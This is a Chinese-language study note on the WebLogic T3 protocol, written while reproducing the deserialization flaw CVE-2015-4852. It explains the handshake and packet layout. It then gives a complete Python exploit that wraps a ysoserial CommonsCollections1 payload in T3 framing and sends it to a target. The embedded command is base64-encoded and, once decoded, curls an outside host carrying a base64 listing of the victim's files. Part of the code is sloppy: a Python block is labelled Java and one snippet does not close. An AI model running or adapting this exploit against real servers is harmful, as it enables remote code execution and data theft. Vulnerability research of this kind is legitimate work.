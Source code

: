 # T3协议学习

这里借用CVE-2015-4852复现来学习了下

## T3协议简介

T3 协议是 Weblogic RMI 调用时的通信协议

RMI 即远程方法调用，我们可以远程调用另一台 JVM虚拟机中对象上的方法，且数据传输过程中是序列化进行传输的

Java RMI 的基础通信协议是 JRMP ，但是也支持开发其他的协议来优化 RMI 的传输，这里的 Weblogic 的 T3 协议就是其优化版本，相比于JRMP协议多了一些特性。以下是T3协议的特点：

1. 服务端可以持续追踪监控客户端是否存活（心跳机制），通常心跳的间隔为60秒，服务端在超过240秒未收到心跳即判定与客户端的连接丢失。
2. 通过建立一次连接可以将全部数据包传输完成，优化了数据包大小和网络消耗。

## T3协议结构

### 请求包头&Test发包

写一个python建立socket发包

```python
import socket

def T3Test(ip,port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    while True:
        data = sock.recv(1024)
        print(data.decode())

if __name__ == "__main__":
    ip = "ip"
    port = port

    T3Test(ip,port
```

返回

```bash
HELO
:10.3.6.0.false
AS:2048
HL:19
```

HELO后面的内容则是被攻击方的weblogic版本号，在发送请求包头后会进行一个返回weblogic的版本号。

### 请求主体

图片取自z_zz_zzz师傅的[修复weblogic的JAVA反序列化漏洞的多种方法](http://drops.xmd5.com/static/drops/web-13470.html)文章

![](img/1.png)![](img/2.png)

不难看到在第二到第七部分内容，都是`ac ed 00 05`,说明该串内容是序列化的数据。而如果需要去构造payload的话，需要在后面序列化的内容中，进行一个替换。将原本存在的序列化内容替换成我们payload的序列化内容，在传输完成后，进行反序列化达成攻击的目的

- 第一种生成方式为，将weblogic发送的JAVA序列化数据的第二到七部分的JAVA序列化数据的任意一个替换为恶意的序列化数据。 
- 第二种生成方式为，将weblogic发送的JAVA序列化数据的第一部分与恶意的序列化数据进行拼接。

## 漏洞分析

```Java
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "ysoserial-0.0.5.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    data += sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    print(data.decode())
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header + desflag + payload
    payload = struct.pack(">I", len(payload)) + payload[4:]
    sock.send(payload)


if __name__ == "__main__":
    ip = "ip"
    port = port
    gadget = "CommonsCollections1"
    cmd = "bash -c {echo,Y3VybCBodHRwOi8vaW5mby55NHRhY2tlci50b3A/MT1gbHMgfGJhc2U2NGA=}|{base64,-d}|{bash,-i}"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)

```

这个poc本质就是把ysoserial生成的payload变成t3协议里的数据格式

- 数据包长度包括了自身长度和其他三部分数据包长度，所以需要先占位，计算出长度后再替换进去
- T3协议头是固定的，直接硬编码进去就行
- 反序列化标志+数据=weblogic反序列化标志`fe010000`+ysoserial生成的序列化数据

从wireshark抓包![](img/3.png)



## 参考文章

http://drops.xmd5.com/static/drops/web-13470.html
